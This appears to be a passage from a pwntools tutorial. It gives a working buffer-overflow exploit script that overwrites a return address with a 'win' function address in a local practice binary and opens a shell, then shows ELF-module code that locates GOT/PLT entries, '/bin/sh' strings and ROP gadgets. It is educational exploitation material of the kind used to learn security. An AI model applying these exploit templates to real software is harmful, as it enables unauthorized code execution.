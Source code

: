 ### Basic Buffer Overflow Exploit

```python
#!/usr/bin/env python3
from pwn import *

# Set up context
context.binary = './vuln'
context.log_level = 'debug'

def exploit():
    # Start the process
    p = process('./vuln')
    
    # Find the win function address
    elf = ELF('./vuln')
    win_addr = elf.symbols['win']
    
    # Create payload
    offset = 72  # Offset to return address
    payload = b'A' * offset
    payload += p64(win_addr)  # Overwrite return address
    
    # Send payload
    p.sendline(payload)
    
    # Get shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Core pwntools Modules

### ELF Module

```python
from pwn import *

# Load binary
elf = ELF('./program')

# Get function addresses
main_addr = elf.symbols['main']
printf_addr = elf.plt['printf']  # PLT entry
printf_got = elf.got['printf']   # GOT entry

# Get section information
text_section = elf.get_section_by_name('.text')
print(f"Text section: {hex(text_section.header.sh_addr)}")

# Find strings
strings = elf.search(b'/bin/sh')
for addr in strings:
    print(f"Found '/bin/sh' at: {hex(addr)}")

# Find gadgets (requires ROPgadget)
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Check security features
print(f"NX: {elf.nx}")
```